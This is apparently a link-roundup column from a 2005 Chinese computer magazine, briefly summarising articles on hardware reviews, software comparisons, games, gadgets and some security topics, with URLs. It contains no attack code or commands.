介绍DC拍摄夜景的文章不多，讲口袋DC拍夜景的就更少了。由于口袋DC大多数是傻瓜机，所以在使用上和传统相机及全手动数码相机相比还是有很多不同的。当然口袋DC最大的优点就是可以随时随地记录身边的美景，虽然不能和那些专业DC相比，不过掌握一些好的拍摄经验，这也不错嘛！
文章链接:http://www.ccw.com.cn/dc/yyjq/wzj/htm2005/20050221_10BS6.htm

## 残害你的电脑吧
电脑虽然为你做了很多贡献，但它常常让人很头痛，比如：动不动就出问题，运行速度慢得像蜗牛……如果你对它有一肚子气，请下载这个软件吧！运行后你可以用锤子砸屏幕、用机枪扫射电脑、弄出一大堆臭鱼烂虾、请一个油漆工把电脑刷花等，等你发泄够了，直接按Esc键退出。
文章链接:http://www.newhua.com/cfan/200506/desktoys.rar

## 你真的会阅读吗
“今天的你与五年后的你惟一的不同之处就在于你遇到的人和读过的书”。这句话很有道理，但是看书和看书可不一样，不会看的人看之后只会说：“这本书我看过”；会看书的人则会利用各种实用的工具，让阅读的效果成倍提高！
文章链接:http://blog.timetide.net/archives/2005/02/25/20050225003237.php

## 多少经典多少梦:PC史上十大CPU超频王
超频的诞生，有其特殊的土壤，遥想当年，一台PC的价格可是让无数人望而却步。为了那么非常一丁点的性能提升，需要花费的金钱可是呈几何级数的增长。为了提升性能，也为了节省金钱，超频也自然而然地提上了日程。CPU发展到现在的动辄几GB的，超频对于很多人来说，或许已经不是那么必须了，所以很多对于这段历史已经很模糊的朋友有必要了解一下超频历史上的经典……
文章链接:http://www.pconline.com.cn/diy/salon/choice/cpu/0412/529853.html

## 七大功能横评:Maxthon 对决 Firefox
在此次的评测中，文章从最流行的核心(IE和Mozilla)的Web浏览器阵营中，选择了傲游(Maxthon)和Firefox来进行对比。两款浏览器各有所长，可以说是时下这两种核心的浏览器的代表之作。
文章链接:http://www.enet.com.cn/eschool/infocenter/A20050222392358.html

## 将国产轻薄至尊笔记本大卸八块
拥有笔记本的朋友，你是否敢将自己的本本拆解呢？对于这种动辄上万的东西，相信没有几个人敢这样干的！还好，现在你可以大饱眼福了，已经有人把一款崭新的TCL超薄A10笔记本彻底拆解的过程记录了下来，一起来看看这款号称国产轻薄至尊的本本到底有什么神秘的地方吧！
文章链接:http://www.pconline.com.cn/notebook/divide/0502/558895.html

## 天呀！用Google连密码都能搜索到！
不要试图用它搜索别人的电脑登录密码呦！实际上，你也搜索不到，借助它，你只能用来搜索一些密码管理不善的地方，不过这些地方并不是一些小地方，国外一些大的图书馆、付费杂志都可以搜索到！
文章链接:http://www.donews.net/superspan/archive/2005/02/22/285164.aspx

## 29种光盘的考验 10款16X DVD刻录机的较量
DVD刻录机在近两年的时间里得到了迅猛的发展，在两年前4X DVD刻录机刚刚起步之时，其高昂的售价，无法让更多人对其发生兴趣，而如今6.7百元的价格对于很多用户来说已经不是问题，他们现在更关心的则是应该购买哪一款更好呢？下面这个专题文章，或许给你一个明确的答案！
文章链接:http://hardware.mydrivers.com/pages/200502081724_24009.htm

## 挑战“快餐黑客”
Windows的漏洞发现从来没有停止过，而针对相应漏洞而出现的漏洞利用工具也层出不穷。“下载工具→溢出攻击→放木马”，这样的“快餐黑客”一族也随之流行起来。有一些病毒防火墙具备溢出检测的功能，如McAfee 8.0i等。请看这篇文章，虽然他的配置方法可能无法阻止一些黑客高手的手段，但对付这些快餐黑客足够了，并且文章中的配置方法能给你一些安全配置的思路。
文章链接:http://hackbase.com/News/hk/2005022510158.html

## 懂二进制才能看时间的手表
这款数字手表有两行LED灯，分别以二进制形式显示小时和分秒读数，要把这些读数换算为正常的时间显示还真不容易，有点儿晕。要看时间，先去学一下10进制转2进制吧！

## BitComet 也有潜力可挖
在目前流行的BT下载工具中，BitComet无疑是公认的连接性能最强、最为稳定的。记得本刊曾经做过利用BitSpirit的隐藏参数来增强下载速度的文章，可是你有没有听说过BitComet原来也有潜力可挖呢？
文章链接:http://www.it.com.cn/f/edu/052/24/80166.htm

## Pro VS Home
Windows XP的Professional(专业版，简称Pro)和Home(家庭版)有区别，这大家都知道，可是具体的区别在哪里，可能很多人都说不清。这篇文章就将Pro与Home版本作了详细的比较，Pro版本增加的功能是否适合你，看这才知道。
文章链接:http://www.it.com.cn/f/edu/051/5/65241.htm

## 一张软盘 + FreeBSD = 防火墙
世界上最高性能(即负载能力最强、流量大)的服务器(包括Web、FTP等)清一色都是采用的FreeBSD系统，如果想架设安全、稳定、高性能的服务器，它是你的不二之选。可是普通用户装FreeBSD能有什么用呢？当然有用，如果你有多台电脑，完全可以将其中性能较差并且闲置不用的机器来做成硬件防火墙，你所需要的仅仅是一张软盘和一套“精简版”的FreeBSD。
文章链接:http://www.cnfug.org/journal/archives/000010.html

## 惊现大量韩国版QQ自定义头像
QQ的自定义头像功能相信很多朋友都已经试过了，可是要选择一幅满意的图片作为头像还真是不容易。本来看起来非常不错的图片，可是上传为头像之后缩小后却变得很难看。这么多韩国风格的QQ头像，大小正合适，相信你能从中找到属于适合自己的头像。
文章链接:http://www.it.com.cn/f/edu/052/28/81373.htm

## 视频格式我知道
计算机的多媒体性能越来越强大，随之出现的视频格式也越来越多。相信你一定想对各种视频格式有所了解，这篇文章将目前流行的诸多视频格式进行了初步的介绍。
文章链接:http://www.it.com.cn/f/edu/0411/22/50276.htm

## 一生中要打好的十八张牌
专注于IT的我们，千万不要以为生活的全部都是数字格式的。人生的幸福有很多种，这篇文章里面列举了人一生中“要打好的十八张牌”
文章链接:http://www.donews.net/wufan6063/archive/2005/02/23/285802.aspx

## 你没见过硬件BT用途公开
中国有句老话叫“物尽其用”，这个道理对于电脑硬件也是一样。有时候换一个角度去思考就可以发现：硬件居然也可以这样用！使用电脑多年的你，一定积累了不少多余的硬件，何不充分利用一下呢？
文章链接:http://www.pcpop.com/hard/05/2/64616/1.shtml

## 超静音 全手工打造HTPC
要说攒电脑，这很容易学会，但如果让你制作一台甚至连电路板都要自己设计的HTPC相信就没有几个人敢说自己也可以了。所以我们也不得不佩服这位来自挪威的强人，为了静音采用了无风扇设计，为了减小热量，居然将CF卡作为硬盘，更使用了可编程的遥控器、无线键盘、无线鼠标。
文件链接:http://www.pcpop.com/power/05/2/62956/1.shtml

## 这才是女孩用的笔记本！
当很多人感叹苹果笔记本电脑优美线条的时候，已经有越来越多的厂商设计出外形更加讨女人喜欢的笔记本电脑。也许将来每一天，笔记本电脑会像挎包、化妆盒一样成为女孩们体现个性的东西了！尽管如此，这些产品在近期似乎难以普及。为什么这些开发商总是一相情愿的认为，大众对笔记本形状的喜好，就和女孩们买衣服一样呢？
文章链接：http://www.tulip-ego.com/main2.html

## 这十款游戏续作你不必玩
并不是所有游戏都像DOOM3、半条命2那样大红大紫，要知道很多游戏的续作都可以用“垃圾”来形容。来这里看看最令人失望的十大PC游戏续作吧，不要再去浪费时间去玩这十款游戏了，因为它们玩起来的确没意思……
文章链接http://www.beareyes.com.cn/2/lib/200503/10/20050310229.htm

## 拆！罗技MX1000大拆解
罗技MX1000可以算是无线鼠标中的王者，你是不是很奇怪为什么它的功能就这么强？为什么它就这么省电？为什么它的精确度就这么的高？想知道答案？那么不如从它的内部结构看起。如果你已经买了罗技MX1000又舍不得拆开看看，那么本文更是你非看不可的强文。
文章链接:http://www.pcpop.com/hard/05/3/66259/1.shtml

## 备份软件你该选谁
现在备份软件越来越多，但大家最常用的还是Ghost。是否想过要换一款备份软件呢？你还在犹豫不决？来看看这篇文章的介绍吧，让你对腾龙备份大师、Acronis True Image及Norton Ghost这三款不错的备份软件有一个更深刻的了解。
文章链接http://publish.it168.com/2005/0201/20050201506101.shtml?cchannel=22

## 显卡到底该升不升？
很多游戏迷每次升级电脑时都少不了要升级一下显卡，毕竟现在显卡的贵、贱已经代表了你能玩游戏的多少。可是对于一般人，我们真的需要几千元的显卡吗？到底该如何选显卡？应该买哪种显卡？ATi和NVIDIA的官方是如何向用户推荐显卡的呢？
文章链接:http://www.pcpop.com/vga/05/3/66119/1.shtml

## 到底人类是否登上过月球
1969年美国航天员踏上了月球，那是人类第一次登月成功。不过也有很多人一直在怀疑人类从来就没有登陆过月球，那些照片及视频都是一个“骗局”。到底人类是否登上过月球呢？
文章链接:http://tech.sina.com.cn/d/2005-03-07/1728543865.shtml

## 电脑机箱竟然有人形的
在我们的印象里，电脑机箱应该都是方方正正的，可富有想象力的人总是不安于现状。机箱竟然能做成人形，“电脑藏在人脑里”，这样的想法真是很有创意。
文章链接：http://news.mydrivers.com/pages/20050315183539_38237.htm

## 创造你自己的成语
成语最能体现出汉语的优势：言简意赅、一针见血。你可曾想过自己创造成语呢？这可是考察你文学功底和想像力的大好时机！
文章链接：http://chinese.dreamsofwhitetiles.com/index.php?p=18

## 超实用 耳机基本常识
不管你是打游戏还是听随身听，耳机是必不可少的。那么应该如何去选购耳机呢？与电脑的CPU频率、内存大小一样，耳机也有着一些专业的技术名词，如果正准备去买一款耳机，建议了解一些文章中提到的专业名词，至少在“JS”的眼中，你不会再那么好“蒙”……
文章链接:http://www.51erji.com/Article/ShowArticle.asp?ArticleID=438

## 随身听的昨天、今天和明天
如今在大街上随处可见带着C、MP3随身听的帅哥靓妹，可是你知道最早的随身听是什么样吗？你知道最早的CD是哪年出现的吗？你知道随身听最早是谁开发的吗？看完这篇文章后，再与别人聊到随身听的话题时，就不会再插上不嘴了。
文章链接http://www.imp3.net/article/article.php?articleid=3011

## 在电脑中上演黑客帝国中的震撼效果！
黑客帝国的放映热潮已经过去，但是里面的很多情节很多人都还记忆犹新，曾经给我留下深刻印象的场景里面有一个就是救世主Neo在挑选武器的时候，一排排武器从画面深处喷薄而出，当时的感觉是绝对震撼。听说在即将发布的Mac OS X 10.4 Tiger中，来自Quick Time的工程师要把这种震撼感觉到我们的阅读习惯中了。
文章链接：http://www.blogcn.com/user15/echo_soco119/blog/6851213.html

## 好马配好鞍 为MP3选款好耳机
MP3市场鱼龙混杂，很多人在购买了一款不错的MP3后，为了提高音质，会将原配耳机替换，毕竟过于低档的劣质耳机不仅会影响音质，更有可能会损害你的听力(建议你可以看看http://digi.qq.com/a/20050310/000032.htm这篇文章)，所以选择一款好的耳机是非常必要的。那么我们应该买哪款呢？
文件链接:http://www.pconline.com.cn/digital/audio/daogou/phone/0503/573794.html

## PC硬件十大弃儿
如今的IT产业的发展速度极是迅速，每时每刻都有令人目不暇接的技术、新品发布。对于推出这些产品的公司与设计者们来说，产品就像自己的孩子一样，用望子成龙这四字真言来形容他们的心情可谓是毫不为过——哪个父母不希望自己的孩子出人头地呢？此时，教育问题（驱动等相关软件的支持）就成为送子登龙的要务，所谓再穷也不能穷教育就是指这个道理。可惜的是，这些“孩子”们的境遇却是难以预料的。因为种种原因……家道中落（开发厂商倒闭或被收购），一些本来大有希望的“孩子”们被迫辍学，流落街头，最终成为悲哀的弃儿……
http://hardware.mydrivers.com/pages/200503151514_64549.htm

## 购买MP3不得不说的售后问题
MP3价格的一降再降，导致市场上的品牌产品与杂牌产品在相同容量的情况下售价相差能达到几手元。这当然不排除做工、用料、宣传成本的因素，但更重要的一点是：售后服务。廉价的杂牌MP3，由于其产品成本的因素，所以售后服务是非常重要的（买了之后几天就坏了你找谁）。本文列举了国内市场上销售的主流MP3产品的售后服务情况，值得参考。
文章链接：http://www.it.com.cn/f/market/053/14/86496.htm

## 暗访手机服务状况
售后维修服务永远是消费者最头疼的问题，同样也是最令厂商头疼的问题。作为消费者来说，手机出了问题本来就是一件比较烦心的事，如果在维修的过程中再出现什么不快，我想无疑会坚定消费者放弃这个品牌的决心。而目前手机市场很大的一部分销量是来自换机的用户，所以售后服务的重要性自然是不言而喻的。请看中关村在线暗访手机服务的情况。
文章链接http://active.zol.com.cn/mobile/2005315/

## 中国黑客，你是否还有当年的激情
在中国，“黑客”这个词已经越来越商业化了。随着许多收费会员制黑客技术网站的大量涌现，以及越来越多的雇佣DDOS攻击行为的“普及”，中国黑客已经失去了自由、开放的形象。记得春节时期网上曾经非常流行一篇叫做“告别中国黑客的激情年代”的帖子被广为流传，但其中对中国黑客的历史介绍得并不详细，所以有了这篇“中国黑客谱系”，其中对于情节的描述相当精彩。
文章链接：http://hackbase.com/gest/hackbase/2005031210399.html

## 了解新一代闪存技术
数码设备的快速增长带动了整个闪存市场。在几年前价格昂贵的数码相机、MP3播放器、手机、掌上电脑等数码产品，今天已经进入到大众消费阶段。不断新增的用户，加上快速的产品更新周期，造就了一个庞大的产业，其中，闪存行业可以说是最大的受益者。本文将向大家介绍下一代闪存的各种新标准与新技术。
文章链接:http://hardware.mydrivers.com/pages/200503141536_37851.htm

## 九款笔记本硬盘同台比较
厂商们在宣传桌上型计算机产品时，通常不会附加太多有关储存装置的技术说明，甚至会在笔记计算机产品描述上，完全跳过硬盘的细节。厂商们反而会以产品的容量，比如说60GB、80GB或超过80GB的标题，来吸引顾客群。然而，许多主流的笔记计算机硬盘却无法传递足够的效能，到底谁家的硬盘性能最出色呢？请看链接。
文章链接:http://gb.tomshardware.com/article_0000853.html

## IDF Spring 2005回顾综述
IDF是全称为Intel Developer Forum，即Intel开发者论坛。作为最重要的IT厂商之一，Intel在会上介绍的新技术新产品很可能在不久之后就会进入千家万户。因此，了解Intel开发者论坛有助于了解未来电脑的趋势。
文章链接:http://hardware.mydrivers.com/pages/200503111719_27996.htm## AMD Fans 抱案而起! 为 AMD 洗刷四大冤情

AMD 处理器 PR 标示不正规、核心混乱、二级缓存变化太大……这些都被称为 AMD 的缺点，真是这样吗？请看 AMD 爱好者的全面反击。文章链接:http://www.hardspell.com/buy/showcont.asp?news_id=11642&pageid=2146

## 拒绝神秘——高低端路由器的区别

路由器的价格在大家的眼里一直很神秘，为什么看似参数相同的路由器，价格却能相差这么多？本文从影响路由器性能的因素、决定路由器档次的指标等项目来教大家区分高低端路由器，看了之后相信你在购买路由器时也能够在心里有把尺了。文章链接: http://bbs.it.com.cn/ShowPost.aspx?Forums=93&ForumID=93&TopicID=13026

## 神了! 在 Intel P4 主板上用 K8

Intel 和 AMD 一直是对冤家，由于 CPU 不同，主板设计自然不同，但在 CeBIT2005 上精英公司推出的 PF88 主板，它居然实现了在标准 P4 主板上，通过子卡提供对 K8 CPU 的支持，对于 DIYer 来说，这块主板是个非常不错的选择。文件链接:http://news.onlinedown.net/info/11458-1.htm

## 蓝光之争再起波澜

最近一段时间，有关 HD DVD 与 Blu-ray Disc (BD) 的争论又多了起来，这应该归功于年初的 CES 2005 大展与最近刚刚举行的 CeBIT 2005 大展，在这两个展会上，HD DVD 与 BD 都向世人展现了新的进步。就目前的形势来看，无论从技术水平，还是业界的支持程度，BD 似乎都占据了上风，那么 HD DVD 面对着强大的对手将如何应对，可能就是很多人所关心的话题。《存储时代》搜集了近期对 HD DVD 阵营相关人士的访谈记录，在此整理成文，相信从中大家能从一些侧面来更了解 HD DVD。文章链接:http://www.stor-age.com/zhuanti/htm2005/05031705U551.asp

## 第八期

## 算过吗? 刻 DVD 刻出近千元

你了解现在有哪些特殊的 DVD 盘片吗？比如一种连速度都没有标识的 D5 刻录盘片居然要价 18 元/张;一种可以直接使用 FAT32 文件系统的 DVD 刻录盘片(在 Windows XP 中你可以像使用硬盘分区一样对光盘进行操作),要 60 多元才能买到;可以进行盘面图案打印的 DVD 刻录盘片要价高达 2 美元。如此多的特种光盘你难道不想了解一下吗?文章最后还给那些拥有 DVD 刻录机的下载狂人算了一笔账，结果真让人大吃一惊……文章链接:http://www.pcpop.com/dvd/05/3/66977/1.shtml

## BT 真的有强力发动机吗?

提起如今最流行的 P2P 下载方式，谁都会首先想到 BT, 那么在使用 BT 下载时, 你是不是经常抱怨速度太慢呢? 别急, 有人专门想到了这个问题, 所以推出了名为“BT 发动机”的软件, 那么它到底有何神奇之处? 是否能让 BT 下载速度翻倍增长呢? 看过本文后, 答案也就出现了。文章链接:http://www.pconline.com.cn/pcedu/pingce/0503/569228.html

## 语音聊天用 QQ? 用 TOM-skype?

自从 QQ 2004II Beta 3 开始, 其语音聊天功能得到了明显改善, 这是源自于腾讯购买了一家瑞典公司出品的 GIPS 高质量语音引擎。说来也巧 TOM-skype 也是在使用这家公司的语音技术。于是, 自然而然的就会产生疑问——这两款软件的语音聊天功能有何差别呢? 谁的音质更好? 谁的连接成功率高? 谁提供的语音附加功能更强呢? 文章链接:http://www.pconline.com.cn/pcedu/pingce/0503/577759.html

## GeForce4 MX440 也疯狂

GeForce4 MX440 作为三年前的经典低端显卡，现在还能玩什么游戏呢？面对着现在一款款被称为硬件杀手的游戏——DOOM3、HALF LIFE 2、Counter-Strike: Source、FAR CRY，GeForce4 MX440 能否轻松应对呢？最终的测试结果着实让人意外……文章链接:http://news.onlinedown.net/info/11675-1.htm

## 看键盘 猜职业

从一个人使用的键盘就可以看出这个人的职业或是爱好，你相信吗？是不是很好奇？不如来先看看本文的分析，再去瞧瞧你的键盘，对照一下，真的很准哦。文章链接:http://bbs.zol.com.cn/new/static_book2/108/395/108_12395.shtml

## 液晶真的完美吗?

现在要是去装配电脑，首先的显示器自然是液晶。毕竟它体积小、辐射低，而且价格也便宜。不过液晶显示器就这么完美吗？其实因受到成像原理限制，目前的液晶显示器有些功能的确还无法和传统的 CRT 显示器相媲美。说到这里我想你也是很好奇了，到底为什么液晶就不如 CRT 呢？文章链接:http://www.it.com.cn/f/diy/053/17/87992.htm

## 明明白白 Linux 分区

很多用户不敢安装 Linux 的一个主要原因就是对其硬盘分区方式不熟悉，在安装过程中必须进行的磁盘分区操作时总是觉得无从下手。要学习 Linux, 分区无疑是第一道门槛! 其实将磁盘分区弄明白了, 也能对其他操作系统的安装有所帮助。文章链接:http://www.linuxeden.com/doc/article.php/21579

## Cracker, 从这里开始

一提到 Cracker, 大家可能就自然而然地想到了软件破解者，其实一个 Cracker 能做的不仅仅是软件破解。杀毒软件公司中的病毒分析专家、为软件提供附加功能插件的软件开发者，都算得上是 Cracker 中的高手。当然，一个合格的 Cracker 并不是一蹴而就的，这儿提供了包括入门在内比较完整的教程。文章链接:http://www.pediy.com/tutorial.htm

## 免费畅快，《血战上海滩》

最近网上爱国签名活动不断，国内各大网站和厂商也给予了高度的支持。这不，完美时空决定将“完美世界”开发团队前作《抗日－血战上海滩》无偿提供给广大用户免费下载，向世人展现广大华夏儿女团结一心的精神面貌。文章链接:http://www.pcpop.com/game/05/3/68564/1.shtml

## 狐狸真的该死吗

近日在论坛中发现了一个有关 Firefox 的讨论，和网上铺天盖地对 Firefox 大加赞扬的文章不同，这篇文章从批判的角度入手，将目前媒体对 Firefox 的一些认识误区作了比较清晰的阐述。虽然这篇文章的观点略有偏激，但其中一些确实在理，究竟如何，还是见仁见智吧。文章链接:http://itbbs.pconline.com.cn/traditional/article.jsp?topic=1373498

## 我猜、我猜、我猜猜猜

为了迎合广大消费者追求产品外形时尚和个性化的需求，各大硬件厂商也动足了脑筋。当你看到这些硬件产品时，甚至已经无法分辨出其“真面目”究竟是什么。像飞碟的 USB 声卡、像一块加厚版网卡的 PCI 硬盘(第一次听说 PCI 接口的硬盘吧)、做成手表状的闪存盘、像救生圈的立体声耳机，无一不让你大跌眼镜，快来看看吧。文章链接:http://document.pcpop.com/0/81/81567.shtml

## 拒绝 “角落男” 教你 “玩阴的”

当你在 Dust2 地图中小心地移动时, 却突然从角落里飞来了几粒子弹, 是谁在打冷枪? 被人“阴”死的感觉实在不爽, 这些常常躲在角落处阴人的 CS 玩家被大家称为“角落男”。如果能避免角落处的暗杀, 相信我们的 CS 死亡率能够大大降低。要避免别人“玩阴的”, 就先要学会自己怎么“玩阴的”……文章链接:http://www.pcpop.com/game/05/3/68585/1.shtml

## 将 iPod Shuffle “藏起来”

国外的强人不得不佩服，刚刚买了 iPod Shuffle 就将它拆掉不说(http://document.pcpop.com/0/81/81349.shtml)，更有甚者居然将 iPod Shuffle 集成了一个耳机中。你能准确的指出图中 iPod Shuffle 的所在位置吗？文章链接:http://document.pcpop.com/0/81/81339.shtml

## 来自最权威的通向 Longhorn 报告

网上关于 Longhorn 的信息满天飞，在百度中以它为关键词，搜索到的结果是 495000，而 Google 更可怕，居然有 4640000 条。不过，我们推荐你到 Windows SuperSite (http://www.winsupersite.com/) 来了解 Longhorn 最新的动态，这里的作者 Paul Thurrott 和微软有着密切的联系，从 Windows 2000 开始，网上所有关于 Windows 的报道，一直以他所发布的消息最为准确和权威。如果你的英文不好也没关系，请到下面这个网站看看，有人帮你翻译了！文章链接:http://www.cnbeta.com/modules.php?name=News&file=article&sid=7177

## 传说中的 PS3

游戏机爱好者对于 PS3 的最新动向一直很关注。这个网址提供了一些新的 PS3 截图。真假尚不可知，看起来像是一个大个儿的音响，拥有 PS2 的同事们都觉得它很难看，不知你是怎么看的。文章链接:http://www.flexbeta.net/main/comments.php?id=12461&catid=6

## 全面了解桌面搜索

自从 Google Desktop Search 推出后，很多搜索引擎厂商都看好桌面搜索这块市场，于是纷纷推出了其相应的产品，比如百度硬盘搜索、网络猪、MSN Toolbar 及 Yahoo! Desktop Search 等等，面对这些大多还是 Beta 版的软件，我们应该选择哪一款呢？文章链接:http://publish.it168.com/2005/0322/20050322005401.shtml?cChannel=22&cPositionCode=613

## 彩蛋! 请在电脑里面找

知道软件彩蛋是什么吗？它是在编写软件时，程序员在软件中放入的有趣玩物，每个软件的彩蛋都需要不同的操作方法，喜欢寻找彩蛋的朋友到这两个网站看看吧，前一个是中文网站，但收藏的彩蛋数量和第二个英文网站比起来差得很远，如果你的英文比较好，并且有兴趣，可以从中精选一些有趣的彩蛋翻译过来发给我们！（木头人报料）文章链接:http://www.bluea.net/ http://www.eggheaven2000.com/

## 看看你长的像哪个明星
每年，各大艺术院校表演系的考生都是成千上万，抱着明星梦的孩子越来越多。在报名之前，先看看你有没有长一张明星脸吧，在这个网站，你可以上传自己的照片，看看和明星们到底有多大的相似度。
文章链接:http://www.play-analogia.com/cgi-bin/index/u/

## 免费光盘 微软发的
微软和它的Windows、Office已经渗透进我们的生活，想不想每月都得到微软最新的技术支持光盘，并且不需你花一分钱，只要注册成为其IT俱乐部成员即可。请一定要在网页内填写真实完整的通讯地址，此后每月微软就会用EMS快递向你免费发送含有最新技术文章、软件补丁、评估软件的IT月度中文速递光盘。(木头人报料)
文章链接:http://www.registermessage.com/technetCD/fir_feedback.asp

## 教你一点一点改变你的操作系统
天天和操作系统打交道，大家都希望每天面对的桌面更加美观大方。本文将带着各位从零开始一步步美化你的Windows，让系统更加赏心悦目。
文章链接:http://www.donews.net/sink/archive/2005/03/27/314174.aspx

## 多图实战用PSP阅读RSS新闻
我们曾经专门介绍过阅读RSS新闻的软件，现在似乎什么东西都想和RSS这个香饽饽挂钩。你看，就连索尼PSP游戏机都可以通过RSS阅读器来访问网上博客了！
文章链接:http://news.mydrivers.com/pages/20050330152237_39837.htm

## 不看可惜！指导你应该如何购买iPod
如果你要买苹果的iPod播放器，那么这里介绍的iPod 2005购买指南你一定不要错过。这个10MB的PDF文件，长达52页，里面囊括了苹果iPod系统播放器的常识、选择、应用、评测以及300多种配件评定。虽然这里面很多配件对于国内的用户意义不大，但作为一个苹果迷，你是不能错失这样一份宝典的。英语好的朋友快去下载看看吧。
文章链接:http://www.imp3.net/article/article.php?articleid=3276

## 低成本运行“魔兽世界”
“魔兽世界”中文版推出已经有段时间了，你是不是还在为电脑无法流畅的运行而头痛？先别忙升级你的显卡，来看看别人是如何通过优化在中端甚至低端显卡上运行“魔兽”的吧。
文章链接:http://document.pcpop.com/0/82/82082.shtml

## 测测你的PC能不能玩上真三国无双
当大家看到本期杂志时，光荣公司出品的真三国无双3已经推出一段时间了，这款不错的通关游戏非常适合大家休闲时玩玩。如果你想知道这款游戏是否能够运行在你现在的电脑上，就来下载它的测试程序试试看吧。注意下面两个程序都要安装，另外，可能你还需要安装AppLocale(下载地址:http://nj.onlinedown.net/soft/25010.htm)，并选择语言为日文。
如果测试分数在5000以上可以完美流畅运行游戏；4000以上可以流畅运行游戏；2500以上可以勉强运行游戏；如果是2500以下的话，那么很遗憾，先升级电脑吧……
下载地址:http://download1.gamecity.ne.jp/tool/SM3Checker.exe
http://download1.gamecity.ne.jp/bench/SM3Benchmark.exe

## 第九期

## 微软默默做贡献 110个软件通通不要钱
大家都知道微软的Windows XP、Office 2003等都是天价软件，但你可能不知道其实它也默默地在为用户制作着一些不要钱的免费软件，这个下载的压缩包中有3个Excel文件，其中记录着110个微软的免费软件，虽然是英文的，但介绍相当简单，稍有一些英语基础的朋友应该都能看懂。
文章链接:http://labs.pcw.co.uk/files/110_microsoft_tools.zip

## 反入侵——Windows XP下的NetBEUI
自从Windows 2000/XP开始流行，越来越多的系统已经不再安装NetBEUI协议，但如果你的电脑要和Windows 98互联，那就少不了这个协议，于是就出现了黑客利用这个漏洞入侵系统的事件……
文章链接:http://www.pconline.com.cn/pcedu/soft/virus/hkgfz/0504/588181.html

## 我跳，我跳，看我在CS中的超级跳
“超级跳”在CS中是非常实用的跳跃技巧，熟练地掌握它后，你可以在短得无法想象的时间内突然出现在敌人面前。只是现在这个技巧很多人都还不会使用，因为超级跳的练习是非常困难，且枯燥无味的，本文的作者就是用了30个小时才完全练成。如果你有兴趣，或是还不知道怎么去实现，那么一定要来看看本文，它是指引你成为CS高手的必备技术。
文章链接:http://www.pcpop.com/game/05/4/68803.shtml

## 带RSS功能的浏览器你选谁？
现在RSS越来越受到关注，以至于很多第三方浏览器都开始提供此功能。目前Firefox、Opera及傲游(Maxthon)都已经增加了RSS浏览功能，本文就是这三种浏览器之间的横评。也许你现在使用的就是傲游(Maxthon)，但看过本文后，换用其他浏览器也说不定呢，毕竟现在RSS资源越来越多，而且它没有广告、时效性也很强，这也是它迅速流行的主要原因。
文章链接:http://publish.it168.com/2005/0406/20050406013801.shtml?cPositionCode=935

## 饮食男女
俗话说，民以食为天，吃饭是我们日常生活最为重要的部分之一。所以，对于常下厨的朋友，就有一些不得不知道做饭技巧；而对于上班族来说，更要注意饮食的合理与均衡，不能随便乱吃哦！
一定要知道的71个做饭技巧，文章链接: http://www.donews.net/gxg/archive/2005/03/23/310521.aspx
上班族的十大饮食杀手，文章链接: http://bbs.51sobu.com/viewthread.php?tid=41661&sid=g7cZu1

## MSN Spaces正式版隆重推出
还记得2005年第6期《微软 Spaces:分享空间 分享生活》介绍的MSN Spaces吗？当时它只是测试版，目前其正式版隆重推出，在全球30个市场提供15种语言的免费网志服务。新增特色功能有提高3倍的储存空间，用户可拥有30MB的照片分享容量，共提供80种背景图片，让用户轻松建立个性化的分享空间。
文章链接:http://spaces.msn.com

## 到这里查查可疑文件的家底吧
Windows中系统文件不计其数，名称千奇百怪，谁也不敢说自己系统中某个文件到底是不是病毒本身或病毒寄生体，现在到这个网址查询一下你怀疑的文件的家底吧(线索提供: 木头人)。
文章链接:http://www.cn.filename.info/n/

## QQ如来神掌的秘密
LumaQQ的如来神掌着实让喜欢QQ隐身的好友头疼不已，可它到底是怎么实现的呢；LumaQQ作者现身说法，不能不看(线索提供:木头人)。
文章链接:http://lumaqq.linuxsir.org/article/rulai.html

## 25年的25项最伟大科技突破
由CNN组织的专家顾问团日前评出了过去25年间人类在科技领域所取得的25项最伟大的突破。此次所评选出的25项技术突破主要集中在计算机、数字娱乐和自然科学领域。对于咱们这些21世纪的新新人类来说，可是必须要知道的哦！
文章链接:http://document.pcpop.com/0/82/82481.shtml

## 史上最全的QQ宠物秀
QQ宠物动态表演动画展，史上最全的QQ宠物“秀”一把，已经领养QQ宠物的了解QQ宠物炫多一点，没来及领养的来大饱眼福一回！注意，网页有声音，别吓着你！(线索提供:木头人)
文章链接:http://www.enet.com.cn/eschool/inforcenter/A20050308396468.html

## 你对CPU了解多少
在电脑产业中，最为核心和关键的莫过于中央处理器(CPU)了。可是，我们又有多少人可以说自己对CPU非常的了解呢？今天，我们就向大伙介绍几篇和CPU相关的“美文”……
中国的CPU完全发展手册 文章链接:http://document.pcpop.com/0/82/82391.shtml
看编号选CPU！文章链接:http://document.pcpop.com/0/82/82069.shtml
历代CPU最全明细参数表 文章链接:http://blog.blogchina.com/article_141489.1194688.html

## 森海塞尔MX550到底值不值
森海塞尔的耳机一直被很多玩家所推崇，一些中高端MP3播放器上的耳机曾经就是森海塞尔公司的OEM产品，其品质自然不同凡响。现在被称为“性价比之王”的MX500系列后续版本MX550正式推出。也许你看过很多评测的文章，但本文是众多玩家的试用心得，完全是“实话实说”，让你买得放心。如果你正准备为MP3换个耳机，那么不妨看看本文。
文章链接:http://www.imp3.net/article/article.php?articleid=3402

## Windows 2000服务器端设置教程
服务器的设置是学习网络的基础课，步骤相当繁琐。相信这篇文章对你或许会有很大帮助(线索提供:木头人)。
文章链接:http://wwwb.pconline.com.cn/pcedu/soft/doc/windows/win2kserver/1.htm

## 买不起PSP，咱自己动手做一个NES-Portable还不成？
PSP重新定义了掌上游戏机的概念，让几乎所有人都爱不释手，但是PSP只是PSP，我们并不能在上面享受所有的游戏，这不，已经有改造牛人将一台NES做成了移动版，也就是NESP了。
文章链接:http://document.pcpop.com/0/82/82131.shtml

## Linux与Windows特性比较
时至今日，如果再单纯地来谈论## “Windows 和 Linux 哪个好”

这类话题就未免显得有些过时。操作系统只是一种工具，本身并不存在绝对的好与坏，惟一决定你选择的因素是它是否真正适合你。这篇文章更多地站在了 Linux 的角度上来分析问题，不过我们对 Windows 已经非常熟悉了，这样的“偏袒”反而能使我们更多地了解到两种系统在各个方面的特点或不同点，适合自己的才是最好的。文章链接:http://addone.blogchina.com/blog/article_17203.1187424.html

## 诺基亚型号系列全面分析

在移动通讯领域，赫赫有名的诺基亚可以说是无人不晓。除了追逐新款手机的潮流外，你想不想了解一下其系列的全面分析呢？文章链接:http://bible.younet.com/files/2005/01/08/247420.shtml

## 全球最贵的11款车

